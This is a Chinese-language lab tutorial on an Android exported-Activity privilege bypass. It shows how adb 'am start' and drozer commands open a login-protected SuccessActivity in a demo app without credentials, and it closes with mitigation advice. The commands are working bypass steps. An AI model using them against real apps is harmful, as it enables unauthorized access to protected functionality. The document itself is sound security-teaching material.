 # Activity漏洞：越权绕过

#### 原理

在Android系统中，Activity默认是不导出的，如果设置了`exported = "true"`这样的关键值或者是添加了`<intent-filter>`这样的属性，那么此时Activity是导出的，就会导致越权绕过或者是泄露敏感信息等安全风险。
例如：

-   一些敏感的界面需要用户输入密码才能查看，如果没有对调用此Activity的组件进行权限验证，就会造成验证的越权问题，导致攻击者不需要密码就可以打开
-   通过Intent给Activity传输畸形数据使得程序崩溃拒绝服务
-   对Activity界面进行劫持



#### 实验步骤

绕过MainActivity的

##### 1. 编译安装、并运行该程序

只有当用户名为`admin`,密码为`123456`时，才会跳转到Success界面

##### 2. 越过登录页跳转到Success页

由于Success界面所属的`SuccessActivity`设置了`exported="true"`，导致可以被外部组件可访问。

###### 2.1 使用am命令

可直接输入命令

```bash
adb shell am start -D -n com.forgotten.activityoverpermission/com.forgotten.activityoverpermission.SuccessActivity
```

便可以直接来到`Success`界面

###### 2.2 使用dozer

```bash
dz> run app.package.attacksurface com.forgotten.activityoverpermission
Attack Surface:
  2 activities exported
  0 broadcast receivers exported
  0 content providers exported
  0 services exported
    is debuggable
dz> run app.activity.info -a com.forgotten.activityoverpermission
Package: com.forgotten.activityoverpermission
  com.forgotten.activityoverpermission.SuccessActivity
    Permission: null
  com.forgotten.activityoverpermission.MainActivity
    Permission: null

dz> run app.activity.start --component com.forgotten.activityoverpermission com.forgotten.activityoverpermission.SuccessActivity
```

也可以直接来到`Success`界面



#### 如何防范

-   私有Activity是相对安全的，创建activity时，设置exported属性为false。
-   公开Activity应，谨慎处理接收的Intent，有返回数据不包含敏感信息，不应发送敏感信息，收到返回数据谨慎处理